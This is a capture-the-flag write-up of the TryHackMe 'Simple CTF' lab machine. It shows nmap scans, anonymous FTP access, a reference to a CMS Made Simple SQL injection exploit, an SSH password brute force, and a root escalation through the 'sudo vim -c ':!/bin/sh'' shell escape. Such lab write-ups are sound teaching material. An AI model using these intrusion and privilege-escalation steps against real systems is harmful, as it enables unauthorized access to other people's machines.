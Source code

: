 # THM - Simple CTF

#### Ip: 10.10.2.89
#### Name: Simple CTF
#### Rating: Easy

----------------------------------------------------------------------

![Simple.png](../assets/simple_ctf_assets/Simple.png)

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ sudo nmap -p-  --min-rate 10000 10.10.2.89
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 13:38 CDT
Nmap scan report for 10.10.2.89
Host is up (0.13s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 13.70 seconds
```
Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ sudo nmap -sC -sV -T4 10.10.2.89 -p 21,80,2222
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 13:40 CDT
Nmap scan report for 10.10.2.89
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.61.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.34 seconds

```

Looks like anonymous access to FTP is enabled, so lets check that out:

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ ftp 10.10.2.89                         
Connected to 10.10.2.89.
220 (vsFTPd 3.0.3)
Name (10.10.2.89:ryan): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls -la
229 Entering Extended Passive Mode (|||41102|)
ftp: Can't connect to `10.10.2.89:41102': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |********************************************************************************|   166      692.77 KiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.30 KiB/s)
ftp> bye
221 Goodbye.
```

Ok cool, now we have a username Mitch, and know that there are some weak passwords being used.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Lets check out HTTP. Navigating to the site we find the default Apache "It Works" page. 

![page.png](../assets/simple_ctf_assets/page.png)

Lets kick off some directory fuzzing to try and find something interesting.

![simplecms.png](../assets/simple_ctf_assets/simplecms.png)

Navigating to http://10.10.2.89/simple/ we find a page using CMS Made Simple. If we poke around a bit we can see the version number in the lower left corner:

![version.png](../assets/simple_ctf_assets/version.png)

Turning to Google we can quickly find a publically available exploit for this version.

https://www.exploit-db.com/exploits/46635

Looks like this version is vulnerable to SQL injection which can be used to crack passwords. Lets try it out!

![edb.png](../assets/simple_ctf_assets/edb.png)

### Exploitation

Note: While I believe this was the intended path, the script above was giving me lots of trouble, and took tons of troubleshooting, so in the end I decided to brute force SSH with mitch as a username. I chose to do this because based on the FTP note discovered earlier, I knew the password had to be relatively common, and easily crackable. I'll have to revisit the ExploitDB script and figure out why it wasn't working for me at another time. 

Nice! Hydra was able to discover Mitch's password. Lets use these credentials to login to ssh as user Mitch:

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ ssh mitch@10.10.2.89 -p 2222      
The authenticity of host '[10.10.2.89]:2222 ([10.10.2.89]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.2.89]:2222' (ED25519) to the list of known hosts.
mitch@10.10.2.89's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
$ hostname
Machine
$ pwd
/home/mitch
```

From here we can go ahead and grab the user.txt flag:

![user_flag.png](../assets/simple_ctf_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to see if Mitch can run anything as root we find:

```text
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Nice! Lets head over to https://gtfobins.github.io/ and see if we can find anything on Vim:

![gtfobins.png](../assets/simple_ctf_assets/gtfobins.png)

Looks like smooth sailing, lets go ahead and drop that command in the terminal:

```text
$ sudo vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:0000/0000/0000^G
/bin/sh: 1: ot found
/bin/sh: 1: 2R: not found
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
Lets grab that final root.txt flag:

![root_flag.png](../assets/simple_ctf_assets/root_flag.png)

That's that! Thanks for following along,

-Ryan

------------------------------------------------------------------------------
